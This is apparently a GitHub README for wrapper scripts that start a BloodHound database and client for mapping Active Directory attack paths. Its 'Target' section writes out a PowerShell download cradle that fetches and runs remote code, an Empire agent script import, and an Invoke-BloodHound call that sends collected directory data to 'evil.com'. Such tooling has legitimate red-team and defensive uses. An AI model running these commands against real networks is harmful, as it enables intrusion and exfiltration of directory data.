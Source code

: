 # bloodhound-utils

Two wrapper scripts around getting a [BloodHound](https://github.com/BloodHoundAD/BloodHound) database and client up and running.



## Usage

### Server

```bash
$ bloodhound-server -p 'Pa$$w0rd' foo.graphdb
```

* If `foo.graphdb` does not exist a new database will be created.
* The [neo4j](https://hub.docker.com/_/neo4j/) Docker image will be launched (interactively; use CTRL-C to exit).
* The password (`-p`) parameter is optional. The default value is `BloodHound`.

### Client

```bash
$ bloodhound-client
```

* If there isn't a BloodHound release in `.`, `/opt` or `/usr/local` then it will be downloaded.
* The BloodHound client will be launched.

### Target

#### Loading

Via download cradle (See https://gist.github.com/HarmJ0y/bb48307ffa663256e239
for more):

```powershell
IEX (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/PowerShell/BloodHound.ps1")
```

Alternatively, from Empire:

```bash
$ curl -o data/BloodHound.ps1 https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/PowerShell/BloodHound.ps1
(Empire: AGENT) > scriptimport data/BloodHound.ps1
```

#### Executing

Use the Neo4j REST API:

```powershell
Invoke-BloodHound -URI 'https://evil.com:7473' -UserPass 'neo4j:Pa$$w0rd'
```

Create CSVs to later be uploaded:

```powershell
Invoke-BloodHound -CSVFolder 'C:\Temp'
```


## Installation

Currently Linux and OSX are supported:

```bash
git clone https://github.com/0x6c7862/bloodhound-utils
cd bloodhound-utils
for f in bloodhound-{client,server}; do sudo cp "${f}" /usr/local/bin; done
```

`bloodhound-server` depends on [`docker`](https://www.docker.com/). See website for details on installation.


## Contributing

### Bug Reports & Feature Requests

Please use the [issue tracker](https://github.com/0x6c7862/bloodhound-utils/issues) to report any bugs or file feature requests.

### Developing

Pull requests are welcome!

### License

This is free and unencumbered software released into the public domain.

Anyone is free to copy, modify, publish, use, compile, sell, or
distribute this software, either in source code form or as a compiled
binary, for any purpose, commercial or non-commercial, and by any
means.

In jurisdictions that recognize copyright laws, the author or authors
of this software dedicate any and all copyright interest in the
software to the public domain. We make this dedication for the benefit
of the public at large and to the detriment of our heirs and
successors. We intend this dedication to be an overt act of
relinquishment in perpetuity of all present and future rights to this
software under copyright law.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.
IN NO EVENT SHALL THE AUTHORS BE LIABLE FOR ANY CLAIM, DAMAGES OR
OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE,
ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR
OTHER DEALINGS IN THE SOFTWARE.

For more information, please refer to <http://unlicense.org/>

### BloodHound License

BloodHound uses graph theory to reveal hidden relationships and attack paths in
an Active Directory environment. Copyright (C) 2016 Andrew Robbins, Rohan
Vazarkar, Will Schroeder

This program is free software: you can redistribute it and/or modify it under
the terms of the GNU General Public License as published by the Free Software
Foundation, either version 3 of the License, or (at your option) any later
version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY
WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with
this program. If not, see http://www.gnu.org/licenses/.
